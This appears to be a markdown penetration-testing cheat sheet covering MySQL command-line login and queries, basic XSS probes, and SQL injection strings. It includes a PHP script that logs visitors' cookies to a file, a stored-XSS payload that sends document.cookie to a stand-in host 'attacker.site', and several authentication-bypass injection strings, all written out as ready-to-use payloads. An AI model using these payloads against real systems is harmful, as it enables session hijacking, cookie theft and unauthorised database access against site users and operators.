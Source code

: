 
## mysql command line login and typical commands
`mysql -u {username} -p{password} -h {target}`
```
show databases;
use {database};
show tables;
select * from {table};
```

---
---

## XSS basics
`<script>alert('xss')</script>`  
`<h1>test</h1>`  
### steal cookies
```
get.php

<?php

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fp = fopen('jar.txt','a');

fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). "\n\n");
fclose($fp);
?>
```  
### Stored XSS exploit
`<script> var i = new Image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>`  

### Further Resources

[PortSwigger XSS Builder](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)  
[OWASP](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)  
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)  

---
---

## SQL Injection Basic
` ' or '1'='1'` 
` ' or '1'='1`  
` ' and 1=1; -- -`  
` ' or '1'='1'; -- -` 
` ' or 1=1; -- -`   
